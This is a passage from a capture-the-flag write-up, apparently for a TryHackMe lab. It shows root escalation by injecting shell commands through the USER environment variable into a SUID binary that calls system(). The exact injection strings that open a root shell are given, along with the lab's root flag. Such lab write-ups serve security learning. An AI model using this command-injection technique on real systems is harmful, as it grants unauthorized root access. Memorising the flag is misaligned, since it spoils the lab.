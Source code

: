 

Soooooo, reading more the write up, I found out about `/bin/authenticate` which is runned as suid and grant the `developer`  group to the current user.

It was there in the linpeas log... just didn't see it...

In the write up they pop up ghidra and disasemble the binary.

Welll, maybe we can figure a way without disassembling. 
Dumping the `strings`, we find the following interesting strings :
```
setuid
getenv
system
getuid
usermod H
-G develH
You need to be a real user to be authenticated.
groups | grep developer
You are already a developer.
USER
Group updated
newgrp developer
```

So i think its calling `system('usermod $USER -G developer')`.

Let's see what happen if we modify `USER`

if I run `export USER=test` i get
```
usermod: user 'test' does not exist
Group updated
```

If we set `export USER="pwn ; id" && authenticate` :
```
uid=0(root) gid=1002(jenny) groups=1002(jenny)
```

Then if we do `export USER="pwn ; /bin/bash" && authenticate`

We get a root shell.

And the root flag `/root/root.txt`
```
THM{ch4ng3_th3_3nv1r0nm3nt}
```

Anddd it's done.

